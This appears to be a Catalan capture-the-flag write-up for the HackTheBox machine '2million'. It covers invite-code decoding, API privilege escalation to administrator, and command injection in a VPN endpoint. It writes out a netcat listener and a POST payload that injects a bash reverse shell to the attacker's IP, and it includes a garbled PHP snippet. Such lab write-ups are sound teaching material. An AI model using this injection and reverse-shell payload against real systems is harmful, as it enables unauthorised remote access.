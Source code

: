![image](https://github.com/user-attachments/assets/66679475-d9e7-4814-bb84-b55a26a5eb52)

````bash
> echo "VVpXQ0ctWlBGVjQtTTI5Q1YtWUVRRjQ=" | base64 -d
UZWCG-ZPFV4-M29CV-YEQF4
````
I ja ens podem registrar :)

## Initial Foothold
Amb la sessió ja iniciada, una petició a la ruta _/api/v1_ retorna una descripció de totes les opcions de l'API i els mètodes que permet cadascuna.

![image](https://github.com/user-attachments/assets/8f03fde9-6a35-4fc3-bc35-0067bf07b33f)

Una d'aquestes és _/api/v1/admin/settings/update_, que mitjançant el mètode PUT permet actualitzar les dades d'un usuari, inclús si és administrador o no. Jugant amb les respostes que dóna cada petició, s'arriba a una petició final que permet convertir-nos en administrador.

![image](https://github.com/user-attachments/assets/dd5222fc-b315-4f4c-b39e-7ea8131c42e3)

I ara, si llancem una petició GET a _/api/v1/admin/auth_, veurem que som administradors.

![image](https://github.com/user-attachments/assets/519fa0c0-fed6-4a81-a761-639a71d25e8a)

Una altra opció de l'API és generar una VPN per a qualsevol usuari, a través de peticions POST. Com és un host Linux, es pot suposar que per darrere hi ha una execució de comandes a nivell de sistema per generar la VPN, així que es pot dur a terme una injecció de comandes si l'input no està sanititzat, de la següent forma:
````php
<?php sytem($_GET['VPN command ;command injection']); ?>
````
Així doncs, provem de ficar-nos en escolta per la interfície _tun0_ per rebre possibles traces ICMP i de fer un ping a la nostra màquina atacant per veure si aconseguim establir una connexió.
![image](https://github.com/user-attachments/assets/a4efc331-93da-4b3e-8527-b5ec2e403c00)
````bash
> sudo tcpdump -i tun0 icmp

tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:30:56.547888 IP 2million.htb > 10.10.16.68: ICMP echo request, id 3, seq 1, length 64
13:30:56.547905 IP 10.10.16.68 > 2million.htb: ICMP echo reply, id 3, seq 1, length 64
````
I com veiem que hem rebut la traça de tornada, podem establir una reverse shell.

**- Atacant:** nc -lvnp 4321

**- POST data:** { "username":"admin;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.68/4321 0>&1'" }

![image](https://github.com/user-attachments/assets/5f5a966c-d81e-4de9-bc2e-cfd0c2e9a998)

Hem aconseguit una reverse shell com l'usuari _www-data_.

## User
